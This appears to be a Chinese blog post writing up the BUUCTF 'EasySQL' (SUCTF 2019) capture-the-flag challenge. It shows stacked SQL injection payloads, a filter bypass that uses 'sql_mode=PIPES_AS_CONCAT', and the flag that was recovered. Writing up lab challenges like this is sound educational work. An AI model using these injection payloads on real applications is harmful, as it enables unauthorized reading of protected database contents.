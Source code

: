 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      EasySQL1   # 标题 
subtitle:    buuctf、SUCTF 2019 #副标题
date:       2020-07-30        # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - CTF
  
--- 
```


攻防世界登录密码错误次数太多了，封禁帐号了。。。暂且刷几道buuctf的题。

打开环境，

![auB3sH.png](https://s1.ax1x.com/2020/07/30/auB3sH.png)

输入0以外的数字查询，回显

	Array ( [0] => 1 ) 

输入0和其他字符页面无回显。

输入`from`、`update`、`where`、`union`、`and`、`or`等字符串，页面回显

	Nonono.

很明显被过滤了。

联合注入，盲注显然不能了。

尝试堆叠注入。

输入`1;show databases; #`，页面回显

	Array ( [0] => 1 ) Array ( [0] => ctf ) Array ( [0] => ctftraining ) Array ( [0] => information_schema ) Array ( [0] => mysql ) Array ( [0] => performance_schema ) Array ( [0] => test ) 

可以进行堆叠注入。

输入`1;show tables; #`页面回显：

	Array ( [0] => 1 ) Array ( [0] => Flag ) 

flag应该就在flag表里。

输入`1;show columns from flag; #`查字段，但页面回显Nonono.

。。。。。因为flag和from被过滤了。

尝试一下预处理，发现不可行，超过一定长度页面会显示

	Too long.

网上查了查wp.

这里要猜测后端查询表语句。

我们需要根据输入数据返回的特征，猜出SQL语句大概是这样：

	select $_POST['query'] || flag from flag

这里`||`后的flag字段必须是表里有的字段。

**知识点**：

oracle 支持 通过 ‘ || ’ 来实现字符串拼接，但在mysql 不支持。

在mysql里，不设置相关参数的话它只是个 `或运算` 的符号。

或运算符有真则为真，字符视为假.

```
mysql> select 1 || user from users;
+-----------+
| 1 || user |
+-----------+
|         1 |
|         1 |
|         1 |
|         1 |
|         1 |
+-----------+
5 rows in set (0.00 sec)

mysql> select 0 || user from users;
+-----------+
| 0 || user |
+-----------+
|         0 |
|         0 |
|         1 |
|         0 |
|         0 |
+-----------+
5 rows in set, 4 warnings (0.00 sec)
```

但是我们可以通过设置 sql_mode=pipes_as_concat; 来使  ||  用作拼接的作用。sql_mode是一组mysql支持的基本语法及校验规则，查询当前系统sql_mode的设置:select @@sql_mode;设置用set @@sql_mode=" "；

sql_mode参数看[这里](https://blog.csdn.net/weixin_42373127/article/details/88866710)

```
mysql> set sql_mode=PIPES_AS_CONCAT;select 1 || user from users;
Query OK, 0 rows affected, 1 warning (0.00 sec)

+-----------+
| 1 || user |
+-----------+
| 1admin    |
| 1gordonb  |
| 11337     |
| 1pablo    |
| 1smithy   |
+-----------+
5 rows in set (0.00 sec)

mysql> set sql_mode=PIPES_AS_CONCAT;select 0 || user from users;
Query OK, 0 rows affected (0.00 sec)

+-----------+
| 0 || user |
+-----------+
| 0admin    |
| 0gordonb  |
| 01337     |
| 0pablo    |
| 0smithy   |
+-----------+
5 rows in set (0.00 sec)

mysql>
```

继续解题：

`1;set sql_mode=PIPES_AS_CONCAT;select 1` ,这里后边的`select 1`又拼接了原本的sql语句，页面回显：

	Array ( [0] => 1 ) Array ( [0] => 1flag{e74e5597-a34d-4e63-8a7c-b84fdbf9eb2e} ) 

另一种解法们这里没过滤`*`,输入`*,1`,回显：

	Array ( [0] => flag{e74e5597-a34d-4e63-8a7c-b84fdbf9eb2e} [1] => 1 ) 

